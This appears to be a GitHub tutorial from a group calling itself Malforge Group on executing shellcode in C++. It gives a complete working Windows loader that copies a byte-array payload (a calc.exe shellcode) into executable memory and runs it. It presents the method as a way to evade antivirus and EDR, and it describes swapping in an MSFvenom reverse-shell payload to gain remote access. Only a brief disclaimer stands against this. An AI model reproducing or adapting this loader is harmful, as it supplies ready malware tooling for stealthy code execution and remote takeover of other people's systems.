 # Executing Shellcode with C++

## Introduction

Hello everyone, today I am going to teach you how to execute malicious shellcode with C++.

## Why Use Shellcode?

Shellcode is often used in scenarios where:

- **Stealth is critical** — It avoids writing to disk.
- **AV/EDR evasion** — Memory-resident payloads are harder to detect.
- **Precise control** over execution — You're writing and executing memory buffers directly.

![image](https://github.com/user-attachments/assets/86729f34-8ff9-4a2d-b637-7fb9dbb26312)

## The Payload: `calc.exe`

We'll use a shellcode payload that spawns the calculator (`calc.exe`). This is commonly used as a proof-of-concept (PoC) for demonstrating shellcode execution.

---

## Full C++ Code

```cpp
/*
  C++ implementation of a shellcode execution example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

## Proof of Concept (PoC)
To illustrate this technique, we can use a reverse shell payload created with **MSFvenom in C format**. Follow these steps:

Generate Shellcode: Use **MSFvenom** to create a reverse shell payload and format it as a C array.

![image](https://github.com/user-attachments/assets/85592f72-2ddc-4519-9cc3-08d74ce71fb4)

Insert Payload: Update the payload array in the code with the generated shellcode.

![image](https://github.com/user-attachments/assets/6b98ec6a-2354-4368-aa05-9a837c830605)

Compile and Run: Compile the C++ code into an executable (EXE) and run it to initiate the reverse shell.

![image](https://github.com/user-attachments/assets/94d3293c-b47c-4738-9fdf-df5b33aa8526)

![image](https://github.com/user-attachments/assets/4c2e683e-2659-4eff-ac64-034babac6d7c)

Upon running the EXE, the reverse shell connects, granting remote access to the system

![image](https://github.com/user-attachments/assets/087d4378-0658-4b46-80d2-f45b4203ab91)

![image](https://github.com/user-attachments/assets/a6e2233f-c24a-45d8-8c19-cee4358c0066)

## Conclusion

This guide covered how to execute shellcode in C++ and highlighted its stealth advantages. By running code in memory, shellcode can bypass many standard security measures. I hope this article was insightful and helped you understand shellcode execution.

> ⚠️ **Disclaimer:**  
> This code is for **educational purposes only**. Executing shellcode can be **highly dangerous** and may trigger antivirus alerts or cause system instability.  
> Do **not** run this code on production machines or without proper knowledge.  
> Always conduct experiments in **isolated environments** such as virtual machines or sandboxes.
---

Thank you for reading!

— **Malforge Group**
